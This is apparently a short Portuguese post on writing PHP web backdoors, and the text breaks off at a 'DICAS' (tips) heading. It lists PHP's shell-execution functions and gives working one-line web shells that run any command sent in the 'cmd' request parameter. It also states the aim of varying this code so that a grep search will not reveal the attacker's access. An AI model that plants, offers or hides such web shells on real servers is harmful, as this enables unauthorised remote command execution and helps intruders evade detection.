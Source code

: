 Esse pequeno post é focado em uma das diferentes técnicas que venho estudando no PHP, mas direcionando no quesito de variação de código para backdoor web.

O cenário de uso dos exemplos abaixo é um pensamento fora da caixa, dando exit() no básico usado em muitos códigos backdoor.

Foquei nas variáveis globais GET ,POST ,REQUEST.

#### As functions mais usadas:

```
(PHP 4, PHP 5, PHP 7)
shell_exec — Executa um comando via shell e retorna a saída inteira como uma string
string shell_exec ( string $cmd )
EXEC-> php -r 'shell_exec("ls -la");'

(PHP 4, PHP 5, PHP 7)
system — Executa um programa externo e mostra a saída
string system ( string $command [, int &$return_var ] )
EXEC-> php -r 'system("ls -la");'

(PHP 4, PHP 5, PHP 7)
exec — Executa um programa externo
string exec ( string $command [, array &$output [, int &$return_var ]] )
EXEC-> php -r 'exec("ls -la",$var);print_r($var);'

(PHP 4, PHP 5, PHP 7)
passthru — Executa um programa externo e mostra a saída crua
void passthru ( string $command [, int &$return_var ] )
EXEC-> php -r 'passthru("ls -la",$var);'
```

#### Implementação simples:

```
shell_exec: 
 if(isset($_REQUEST['cmd'])) { $cmd=shell_exec($_REQUEST['cmd']);
 print_r($cmd);} 

system: 
 if(isset($_REQUEST['cmd'])) { system($_REQUEST['cmd']); }

exec:
 if(isset($_REQUEST['cmd'])) { exec($_REQUEST['cmd']); }

passthru:
 if(isset($_REQUEST['cmd'])) { passthru($_REQUEST['cmd']); } 
```


Podemos usar as mesmas functions, porem de forma elaborada evitando que um simples grep -E revele nosso acesso.

#### DICAS:
